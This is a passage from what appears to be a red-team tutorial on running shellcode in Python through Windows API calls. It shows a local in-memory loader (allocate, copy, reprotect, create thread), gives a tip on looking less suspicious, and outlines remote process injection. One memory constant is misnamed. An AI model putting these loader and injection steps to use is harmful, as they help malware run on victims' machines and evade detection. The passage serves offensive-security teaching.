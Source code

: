 Now it's time to actually execute the shellcode. This involves 5 steps.

Allocation of memory using the VirtualAlloc function, ensuring the memory has the read/write/execute protection option. Read/write will not work. ([Reference](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)).
```
memptr = VirtualAlloc(0, len(shellcode), MEM_COMMIT, PAGE_READWRITE_EXECUTE)
```

Copy memory contents from the shellcode memory location to the memory location allocated above using RtlMoveMemory ([Reference](https://docs.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)).
```
ctypes.windll.kernel32.RtlMoveMemory(memptr, shellcode, len(shellcode))
```

Change the allocated memory region's protection option to read/execute. This is not necessary, but will make execution of the shellcode less 'suspicious'. Check out the list of memory protection constants [here](https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants).
```
ctypes.windll.kernel32.VirtualProtect(memptr, len(shellcode), PAGE_READ_EXECUTE, 0)
```

Create a thread that executes the shellcode within the context of the current process ([Reference](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)).
```
thread = ctypes.windll.kernel32.CreateThread(0, 0, memptr, 0, 0, 0)
```

Cause the current thread to wait for completed execution of the previously created thread ([Reference](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)).
```
ctypes.windll.kernel32.WaitForSingleObject(thread, 0xFFFFFFFF)
```

At this point, the shellcode has been executed within the context of the running process.

## Execution - Method 2

The next execution method allows for the execution of the shellcode in a remote process. This will involve a few extra steps in comparison to the previous method. However, it has some added Operational benefits. The steps to execute shellcode in a remote process using functions from kernel32.dll are as follows:
1. Finding a remote process that you can inject into, grabbing its PID
2. Obtaining a process handle for that PID
3. Allocating memory in that process for the shellcode
4. Writing the shellcode to that allocated memory region
5. Altering the memory region's protection options (if need be)
5. Create a thread to execute the shellcode at the allocated memory region

### Finding a PID

There are a few ways to find running processes that the current user has read/write/execute access to. The easiest ways are to use either the Python [psutil](https://psutil.readthedocs.io/en/release-3.2.2/) or [wmi](https://pypi.org/project/WMI/) library. I'll demonstrate using psutil, but either are fine.
